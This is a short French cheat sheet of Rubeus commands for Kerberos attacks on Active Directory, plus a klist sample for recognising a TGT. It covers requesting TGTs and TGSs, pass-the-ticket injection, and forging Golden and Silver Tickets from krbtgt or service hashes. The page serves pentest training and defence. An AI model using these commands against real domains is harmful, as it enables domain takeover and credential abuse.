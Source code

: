 ***

### <mark style="color:red;">🛡️ Commandes Rubeus Essentielles</mark>

#### <mark style="color:blue;">Générer un TGT</mark>

```bash
rubeus.exe asktgt /user:bob /password:Password123
```

#### <mark style="color:blue;">Générer un TGS</mark>

```bash
rubeus.exe asktgs /ticket:TGT_base64 /service:LDAP/dc.domain.local
```

#### <mark style="color:blue;">Voir les tickets</mark>

```bash
rubeus.exe triage
klist (commande Windows native)
```

#### <mark style="color:blue;">Injecter un ticket</mark>

```bash
rubeus.exe ptt /ticket:ticket_base64
```

#### <mark style="color:blue;">Créer un Golden Ticket</mark>

```bash
rubeus.exe golden /aes256:hash_krbtgt /user:admin /printcmd
```

#### <mark style="color:blue;">Créer un Silver Ticket</mark>

```bash
rubeus.exe silver /service:cifs/server /rc4:hash_service /user:admin
```

***

### <mark style="color:red;">🔍 Comment Identifier un Ticket ?</mark>

#### <mark style="color:blue;">Dans la mémoire (klist) :</mark>

```
Client: bob @ DOMAIN.LOCAL
Server: krbtgt/DOMAIN.LOCAL @ DOMAIN.LOCAL  ← C'est un TGT
```
